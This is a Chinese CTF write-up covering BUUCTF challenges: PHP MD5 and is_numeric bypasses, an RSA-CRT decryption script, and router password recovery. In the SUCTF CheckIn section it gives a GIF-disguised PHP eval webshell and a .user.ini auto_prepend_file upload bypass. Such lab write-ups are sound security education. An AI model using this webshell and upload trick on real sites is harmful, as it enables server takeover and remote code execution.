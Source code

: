 # BUUCTF-.user.ini-rsa1

第七周第二次

**目录**

[TOC]





## WEB

### [MRCTF2020]Ez_bypass



<img src="https://i-blog.csdnimg.cn/blog_migrate/d10a14f0b8763e06eede55464109495a.png" alt="" style="max-height:792px; box-sizing:content-box;" />


代码审计

```cobol
1. md5强比较过滤
数组即可绕过
 
2.is_numeric() ==
1234567 a 即可绕过
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5f8e6aa3d979cf2ab5acd1c1e032284a.png" alt="" style="max-height:243px; box-sizing:content-box;" />


### [SUCTF 2019]CheckIn

文件上传

先编写上传代码

1.jpg

```cobol
GIF89a
<script language='php'>eval($_POST['a']);</script>
```

稳定上传

成功

然后我们尝试使用

```undefined
.user.ini
```

这个比

```undefined
.htaccess
```

作用的范围更大 可以修改文件配置

给一个文件头 防止文件头审核

```cobol
GIF89a                  
auto_prepend_file=1.jpg 
auto_append_file=1.jpg  
```

然后进行上传

两个文件上传成功

开始访问



<img src="https://i-blog.csdnimg.cn/blog_migrate/b90e4b2b14dc8a80acf1a1808aa2d98a.png" alt="" style="max-height:326px; box-sizing:content-box;" />


得到上传地址 开始连接

```cobol
2d7480a8-c61e-4e5a-8053-b824ba82328e.node4.buuoj.cn:81/uploads/f9e1016a5cec370aae6a18d438dabfa5 
 
 
 
a
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/355df922a4f29f4007ccc4a97c3074fc.png" alt="" style="max-height:699px; box-sizing:content-box;" />


得到flag

## Crypto

### RSA1

```cobol
import gmpy2
 
p =8637633767257008567099653486541091171320491509433615447539162437911244175885667806398411790524083553445158113502227745206205327690939504032994699902053229 
q = 12640674973996472769176047937170883420927050821480010581593137135372473880595613737337630629752577346147039284030082593490776630572584959954205336880228469 
dq = 783472263673553449019532580386470672380574033551303889137911760438881683674556098098256795673512201963002175438762767516968043599582527539160811120550041
dp = 6500795702216834621109042351193261530650043841056252930930949663358625016881832840728066026150264693076109354874099841380454881716097778307268116910582929
c = 24722305403887382073567316467649080662631552905960229399079107995602154418176056335800638887527614164073530437657085079676157350205351945222989351316076486573599576041978339872265925062764318536089007310270278526159678937431903862892400747915525118983959970607934142974736675784325993445942031372107342103852
n = p * q
 
I = gmpy2.invert(p, q)                      #I为p(mod q)的逆元，即p*I = 1(mod q)
mp = gmpy2.powmod(c, dp, p)                 #计算mp = c^dp % p
mq = gmpy2.powmod(c, dq, q)                 #计算mq = c^dq % q        
 
m = (mp + (I * (mq - mp)) * p) % n          #明文求解公式
m = hex(m)[2:]                              #转十六进制数据
 
flag = ''
for i in range(len(m)//2):
    flag += chr(int(m[i*2:(i+1)*2], 16))
 
print(flag)
```

### 权限获得第一步



<img src="https://i-blog.csdnimg.cn/blog_migrate/b63fda151b6f50147c6934019ec1db3f.png" alt="" style="max-height:781px; box-sizing:content-box;" />


认为是hex

MD5解密



<img src="https://i-blog.csdnimg.cn/blog_migrate/acf7f4165989cf597cc6c2a380b8331c.png" alt="" style="max-height:306px; box-sizing:content-box;" />


## Misc

### webshell后门

与后门查杀一样的



<img src="https://i-blog.csdnimg.cn/blog_migrate/6a65788fa0d54a53ed22aaa0f3d5cd6a.png" alt="" style="max-height:781px; box-sizing:content-box;" />


### 荷兰宽带数据泄露

使用工具 [RouterPassView](https://www.onlinedown.net/soft/104401.htm) 打开

```cobol
RouterPassView：路由器的备份文件通常包含了像ISP的用户名重要数据/密码、路由器的登录密码，是无线网络的关键。如果不小心失去了这些密码/钥匙，也可以通过路由器配置的备份文件找回。RouterPassView就是一个找回路由器密码的工具，可以帮助你从路由器中恢复丢失的密码。
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/a9a0d12792e3c78bf455f06d9820f1e1.png" alt="" style="max-height:480px; box-sizing:content-box;" />